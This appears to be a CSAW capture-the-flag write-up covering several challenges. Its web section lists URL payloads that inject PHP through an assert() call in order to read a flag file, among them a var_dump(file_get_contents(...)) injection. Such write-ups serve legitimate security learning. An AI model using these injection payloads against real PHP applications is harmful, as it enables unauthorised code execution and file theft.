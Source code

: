# "Notesy 2.0" 1: (Solved)

Problem: "Remember last year?"

Flag: `abcdefghijklmnopqrstuvwxyz`

# "Kill" Forensics 50: (Solved)

Problem: "Is kill can fix? Sign the autopsy file?"

Solution: File is a corrupted `.pcapng`.  It will not open in Wireshark or tcpdump.  File is readable in text editor.  Used `file_search.py` to find the flag.

Flag: `flag{roses_r_blue_violets_r_r3d_mayb3_harambae_is_not_kill}`


# "MFW" Web 125: (Solved)

Problem: "Hey, I made my first website today. It's pretty cool and web7.9."

Solution: Remote code execution through URL.  Attached Burp as a proxy to my browser.  Inspected the HTML, and notice possible `?/page=flag`.
The site also points out how it is built with git `http://web.chal.csaw.io:8000/.git/config` is accessible.  
Attempted file inclusion, but like the code shows it is not feasible.  
After anaylzing the code I ran it locally and tried many different URLs.  I added a debug line of `echo("<script>console.log( 'Debug Objects: " . assert("file_exists('$file')") . "' );</script>");`  I then ran the following urls:

1. `http://web.chal.csaw.io:8000/?page=phpinfo();`
2. `http://web.chal.csaw.io:8000/?page=http://web.chal.csaw.io:8000/templates/flag.php`
3. `http://web.chal.csaw.io:8000/?page=file_get_contents(%22/templates/flag.php%22);`
4. `http://web.chal.csaw.io:8000/?page= flag')%26%26file_get_contents('/templates/flag`
5. `http://web.chal.csaw.io:8000/?page=flag%27)||die(%27templates/flag`
6. `http://web.chal.csaw.io:8000/?page=flag%27%29||var_dump%28file_get_contents%28%27templates/flag.php%27%29%29;//`

The code has seemingly interesting defense built into it to distract someone at first through defeating a local file inclusion `assert("strpos('$file', '..') === false")`.
But `assert()` will execute PHP code, and thus that is it's weak point.


(Need to do an RCE `assert("file_exists('$file')") or die("That file doesn't exist!");` seems vulnerable, remember the die function)

tried:
`/?page=phpinfo();`
`/?page=http://web.chal.csaw.io:8000/templates/flag.php`
`/?page=file_get_contents(%22/templates/flag.php%22);`
`page= flag')%26%26file_get_contents('/templates/flag`
`http://localhost/index.php?page=flag%27)||die(%27templates/flag`
``

Flag: `flag{3vald_@ss3rt_1s_best_a$$ert}`


# "Warmup" PWN 50: (Attempted):

What I did: Ran `file warmup`: `warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped`.  
Exposing a pointer that is the address of `easy`. `_gets` is taking in 0 and a pointer.
